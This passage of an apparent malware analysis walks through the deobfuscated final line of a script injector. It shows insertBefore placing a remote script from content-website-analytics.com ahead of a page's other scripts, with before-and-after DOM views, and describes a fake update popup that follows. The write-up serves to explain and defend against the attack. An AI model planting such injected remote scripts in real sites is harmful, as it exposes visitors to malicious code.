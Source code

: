 **What Happens When Browser Loads This:**
1. Browser makes HTTPS request to malicious domain
2. Server responds with JavaScript payload
3. Browser executes the malicious code
4. Fake update popup displayed to user

---

#### Line 8: Inject Into Page (The Attack!)

```javascript
s.parentNode.insertBefore(w,s);
```

**Deobfuscated:**
```javascript
referenceScript.parentNode.insertBefore(newScript, referenceScript);
```

**What It Does:**
Inserts the malicious script element into the page DOM **before** the first existing script

**DOM Manipulation:**

**Before Injection:**
```html
<head>
  <script src="jquery.js"></script>        ← s (reference)
  <script src="bootstrap.js"></script>
  <script src="main.js"></script>
</head>
```

**After Injection:**
```html
<head>
  <script src="https://content-website-analytics.com/script.js" async></script> ← INJECTED!
  <script src="jquery.js"></script>        ← s (reference)
  <script src="bootstrap.js"></script>
  <script src="main.js"></script>
</head>
```

**Why `parentNode`?**
```javascript
referenceScript         // The <script> element itself
referenceScript.parentNode   // The parent container (usually <head>)
```

**Why `insertBefore(newScript, referenceScript)`?**
- Standard DOM method to insert elements
- Syntax: `parent.insertBefore(newElement, referenceElement)`
- Places `newElement` right before `referenceElement`
- Triggers immediate script loading and execution

**At This Moment:**
1. Browser sees new `<script>` tag in DOM
2. Starts downloading from `content-website-analytics.com`
3. Executes the downloaded malicious JavaScript
4. Fake update popup appears
5. **User is now under attack**

---